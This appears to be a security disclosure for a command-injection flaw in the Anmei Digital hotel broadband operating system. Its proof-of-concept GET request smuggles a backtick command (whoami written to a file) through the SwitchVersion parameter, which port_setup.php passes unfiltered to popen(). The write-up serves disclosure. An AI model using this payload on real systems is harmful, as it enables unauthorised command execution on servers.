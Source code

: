 ## Affected version: 
Anmei Digital hotel broadband operating system has a command execution vulnerability

## Official website:
http://www.amttgroup.com/


## Vulnerability File:
/manager/network/port_setup.php

## Description:
Amie century (Beijing) technology co., LTD. (http://www.amttgroup.com/) is a digital service solution provider for star hotel operating services and digital content.
Anmei Digital hotel broadband operating system has a command execution vulnerability. An attacker could exploit this vulnerability to gain access to the server.

Status: CRITICAL

## Vulnerability recurrence

The login page is shown in the following figure
![image](https://github.com/user-attachments/assets/5f2286c2-e3c7-4c31-8807-2dd02dbba54b)

POC
The command output is not displayed when the popen command is executed. The command is written to 1.txt using $SwitchVersion
```
GET /manager/network/port_setup.php?SwitchIP=1&SwitchPort=90&SwitchIndex=1&SwitchVersion=`whoami%3E1.txt` HTTP/1.1
Host: 127.0.0.1:6070
Cookie: PHPSESSID=1pcd0lbnkcss5m3hk5rcm4kcp2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 192.168.1.23
Priority: u=1
Te: trailers
Connection: close
```
![image](https://github.com/user-attachments/assets/e91b8b89-b659-4313-92c6-1605a457dd61)

Access the file /manager/network/1.txt to see the results of whiami's execution
![image](https://github.com/user-attachments/assets/a20bc189-a5b6-484d-b899-81730bb9f1c8)

## code analysis:

There is no filter in port_setup.php because the $SwitchVersion parameter is controllable, and this parameter is directly brought into the popen() function, causing command execution vulnerabilities.
![image](https://github.com/user-attachments/assets/f4ff4ef5-f2fc-4260-8fae-5a68ca7086c2)



